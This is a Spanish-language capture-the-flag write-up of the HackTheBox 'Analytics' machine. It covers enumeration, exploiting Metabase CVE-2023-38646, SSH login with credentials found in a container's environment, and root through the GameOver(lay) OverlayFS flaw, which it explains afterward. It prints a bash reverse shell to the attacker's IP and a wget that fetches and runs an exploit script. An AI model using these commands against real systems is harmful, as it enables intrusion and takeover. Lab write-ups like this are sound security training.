


+++
title = "HackTheBox - Analytics"
draft = false
description = "Resolución de la máquina Analytics"
summary = "OS: Linux | Dificultad: Easy | Conceptos: Subdominio, Docker, RCE, Metabase"
tags = ["HTB", "Linux", "Easy", "CVE", "Docker", "RCE", "Metabase", "Subdominio"]
categories = ["Writeups"]
showToc = true
date = "2026-01-24T00:00:00"
showRelated = true
+++

* Dificultad: `easy`
* Tiempo aprox. `~2.5h`
* **Datos Iniciales**: `10.129.229.224`

### Nmap Scan y enumeración

Tras realizar un escaneo nmap, se encuentran los siguientes puertos abiertos:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada relevante en UDP
```

Añadimos `analytical.htb` a `/etc/hosts`.

> [!NOTE]+ Nota: Redirecciones
> El hecho de que http nos redirija a `analytical.htb` indica que la configuración del servidor web utiliza vhosts para saber qué servir al usuario (Y por tanto, si accedes a la IP tal cual, el servidor no sabe qué servirte, por eso nos ha redirigido). Una vez que sabes que el servidor discrimina por nombres, la probabilidad de que existan otros nombres (subdominios/vhosts) en esa misma IP se eleva bastante. De ahí que el siguiente paso que tomo sea un análisis con gobuster.

```bash
gobuster vhost --url http://analytical.htb -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt --append-domain
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://analytical.htb
[+] Method:                    GET
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
data.analytical.htb Status: 200 [Size: 77858]
```

Y hemos encontrado `data.analytical.htb`, lo añadimos también a `/etc/hosts`.

## HTTP
### `analytical.htb`

Antes de entrar directamente al subdominio `data`, vamos a `analytical.htb`. No encontramos nada relevante en la página principal, salvo:

* Nombres de trabajadores (Probablemente sean decoración, pero podrían servir para crear wordlists de usuarios).
  * _Jonnhy Smith_
  * _Alex Kirigo_
  * _Daniel Walker_
* Emails (probablemente no válidos):
  * `demo@analytical.com`
  * `due@analytical.com`

Además, encontramos un botón `Login` que nos redirige a `data.analytical.htb`, subdominio que ya conocíamos. De ahora en adelante nos centramos en `data.analytical.htb`.

### `data.analytical.htb`

Se trata de un subdominio que corresponde a un servicio de `Metabase`. Tras buscar en Internet:

> _Metabase is an open-source business intelligence (BI) tool that allows users to explore and visualize data from various databases, creating interactive dashboards and reports without needing SQL knowledge._

En la página de login no encontramos ninguna información de versión ni del servidor:



Además, tras buscar en google:

> _"Metabase does not have hardcoded default credentials like "admin/password" for initial setup. Instead, it forces you to create the first admin account upon the very first launch."_

Por lo que no hay mucho que podamos probar.

Intentamos enumerar subdirectorios:

```bash
gobuster dir -u http://data.analytical.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt          

...[SNIP]...
===============================================================
Progress: 0 / 1 (0.00%)
The server returns a status code that matches the provided options for non existing urls. http://data.analytical.htb/cbddbf7b-7a6d-4dbe-91b2-0e6aadfefac1 => 200 (Length: 77894). Please exclude the response length or the status code or set the wildcard option.. To continue please exclude the status code or the length
```

Nos encontramos un wildcard para archivos y subdirectorios. Además, no podemos filtrar por tamaño porque en cada solicitud los bytes de respuesta varían un poco (+-40B).

Pruebo a enumerar manualmente algunos directorios comunes, teniendo en cuenta que para cualquier elemento que no existe se devuelve la página de login.

Para `/api/`:

&#x20;&#x20;



Vemos que se devuelve `"API endpoint does not exist."`, así que probamos a enumerar el directorio `api`:

```bash
gobuster dir -u http://data.analytical.htb/api/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://data.analytical.htb/api/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 401) [Size: 15]
/user                 (Status: 401) [Size: 15]
/email                (Status: 401) [Size: 15]
/health               (Status: 200) [Size: 15]
/google               (Status: 401) [Size: 15]
/action               (Status: 401) [Size: 15]
/database             (Status: 401) [Size: 15]
/timeline             (Status: 401) [Size: 15]
/alert                (Status: 401) [Size: 15]
```

Vemos que `data.analytical.htb/api/health` devuelve HTTP/200, probamos a acceder al endpoint:

```bash
curl http://data.analytical.htb/api/health
{"status":"ok"}
```

Tras buscar en `/api` con distintos métodos HTTP (POST/PUT/OPTIONS...) seguimos sin encontrar nada.

Vuelvo a mirar en la página web de login y veo que, en los datos devueltos, se encuentra lo siguiente:

```json
"version-info-last-checked":"2026-01-24T18:15:00.009205Z"
"application-logo-url":"app/assets/img/logo.svg"
"application-favicon-url":"app/assets/img/favicon.ico"
"show-metabot":true
"enable-whitelabeling?":false,"map-tile-server-url":"https://{s}.tile.openstreetmap.org/{z}/{x}/{y}.png"
"startup-time-millis":11104.0
"redirect-all-requests-to-https":false,"version":{"date":"2023-06-29"
"tag":"v0.46.6"
....
"hash":"1bb88f5"
```

Tanto el `tag` como el `hash` apuntan a la misma versión de Metabase: **`v0.46.6`**

> _"Metabase v0.46.6 tiene una vulnerabilidad crítica de ejecución remota de código (RCE) sin autenticación, identificada como_ [_CVE-2023-38646_](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)_."_

Como no vemos nada relevante en `/api`, probamos a buscar algún exploit público y encontramos [este](https://github.com/m3m0o/metabase-pre-auth-rce-poc?tab=readme-ov-file).

Al ejecutarlo con [`penelope`](https://github.com/brightio/penelope) en escucha:

```bash
python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.108/4321 0>&1"
```

> Como decía la página del PoC, para conseguir el setup-token (-t) vamos a `/api/session/properties`.

Y en el handler:

```bash
[+] Got reverse shell from 8627fec13e9f~10.129.229.224-Linux-x86_64 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /var/tmp/socat!
-------------
8627fec13e9f:whoami
metabase
```

## Salida de Docker

### Enumeración

Ejecutamos linpeas y encontramos varias cosas relevantes:

* Estamos en un _container Docker_.
  * `Rootless Docker? No`
* 2 usuarios con consola: `root` y `metabase`
* **MUY IMPORTANTE:**`/proc mounted? Yes`
* **IMPORTANTE**: Archivos cambiados recientemente:
  * `/metabase.db/metabase.db.mv.db`
  * `/tmp/hsperfdata_metabase/1`
* **IMPORTANTE**: Archivos/directorios inesperados en root:
  * `/plugins`, `/app`, `/metabase.db`, `/.dockerenv`
* **IMPORTANTE**: Puerto abierto:
  * `0.0.0.0:3000 java` (Metabase)
* **IMPORTANTE**: Common host filesystem mounted?
  * /dev/sda2 on /etc/hostname type ext4 (rW,relatime)
  * /dev/sda2 on /etc/hosts type ext4 (rw,relatime)
* **IMPORTANTE**: Dangerous capabilities
  * CapBnd: 00000000a00425f9

Además, al ejecutar `env` encontramos credenciales:

```bash
META_PASS=An4lytics_ds20223#
META_USER=metalytics
```

> _Después de una hora descartando las opciones de arriba y tras haber probado al principio a conectarme por SSH con las credenciales, vuelvo a intentar iniciar sesión por ssh:_

```bash
ssh metalytics@10.129.229.224
metalytics@10.129.229.224's password: An4lytics_ds20223#

metalytics@analytics:~$ 
```

> [!DANGER](desgraciadamente no sé usar un teclado)
> _Resulta que la primera vez había escrito mal el usuario `metalytics`, tal error solo me costó una hora de mi tiempo._

## Privesc

Ejecutamos linpeas ya fuera del entorno docker, encontramos que nuestra versión del kernel es `6.2.0-25-generic`, `22.04.3 LTS (Jammy Jellyfish)`:

```sh
uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
```

Tras una búsqueda, vemos que esta versión específica es vulnerable a [GameOver(lay)](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), así que usamos el exploit correspondiente:

```sh
wget http://10.10.14.108:8000/exploit.sh
Connecting to 10.10.14.108:8000... 
connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [application/x-sh]
Saving to: \u2018exploit.sh\u2019

exploit.sh                      100%[====================================================>]     558  --.-KB/s    in 0s      

metalytics@analytics:/tmp$ ls
exploit.sh
...[SNIP]...
tmux-1000
vmware-root_430-558536591
metalytics@analytics:/tmp$ chmod +x  exploit.sh 
metalytics@analytics:/tmp$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
```

Y tenemos root.

## Post-Root: GameOver(lay)

[GameOver(lay)](https://gridinsoft.com/blogs/gameoverlay-vulnerabilities-ubuntu/) es el nombre de una vulnerabilidad de privesc local de Ubuntu y derivados.

### OverlayFS & User Namespaces

El nombre viene de `OverlayFS`, el componente afectado. Es un sistema de archivos que permite superponer otros dos:

1. Capa superior (Read/Write)
2. Capa inferior (Read Only)

OverlayFS pone una sobre otra y las fusiona, el sistema obtiene una vista unificada.

Si lees un archivo, lo ves desde abajo; si intentas modificar un archivo de abajo, el sistema primero hace una copia exacta en la capa de arriba (copy-up) y luego aplica los cambios.

Esto se usa mucho en containers, p.ej, de Docker (como el que había en la Analytics).

> Por otro lado, los _User Namespaces_ (en relación a esto) son una herramienta del kernel de Linux que permite que un proceso tenga un UID específico dentro de un entorno aislado, y otro en el sistema real. Dentro del entorno, si eres root, puede actuar como root, pero una vez sales vuelves a ser el usuario que eres en realidad.

El kernel de Linux era bastante estricto con OverlayFS, y solo permitía que el root **del host OS (no dentro de un User Namespace)** montase un filesystem OverlayFS, pero Ubuntu, en 2018, añadió modificaciones en el módulo de OverlayFS del kernel de Linux para que **los usuarios que eran root dentro de un Namespace también pudiesen montar OverlayFS**, con el fin de que los usuarios normales pudiesen lanzar containers sin necesidad de ser root real.

### Vulnerabilidad

El cambio realizado por Ubuntu no supuso una vulnerabilidad hasta 2 años más tarde, cuando otro parche diferente creó un vector de escalada. Ahora, podía pasar lo siguiente:

1. El atacante (no privilegiado) crea un User Namespace y se hace root del mismo. Ahí dentro monta un sistema OverlayFS (gracias al parche de Ubuntu).
2. El atacante monta en la capa inferior (ro) un FS que controla completamente con un archivo malicioso (p.ej bash, con owner `root` y `CAP_SETUID`).
3. El atacante intenta modificar ese archivo malicioso. OverlayFS inicia el proceso de copy-up para llevarlo a la capa superior (que es una carpeta real del sistema).
4. El kernel ve que el usuario es root, aunque en su namespace, pero le vale porque no hay comprobaciones de seguridad, y copia el archivo con todos sus atributos intactos.
5. Ahora, en el sistema real, hay un binario de `bash`, perteneciente a `root` y com `CAP_SETUID`.

Esta vulnerabilidad existió (y existe) porque, en el momento de hacer la modificación, los desarrolladores de Ubuntu no pensaron en añadir una comprobación a la hora de hacer copy-up.

El kernel de Linux original no necesitaba hacer comprobaciones porque en ningún caso un usuario normal podía llegar a una situación como la que permitía el de Ubuntu, si habías llegado hasta el punto de hacer copy-up habiendo montado OverlayFS, se podía asumir que, en circunstancias normales, eras root global.
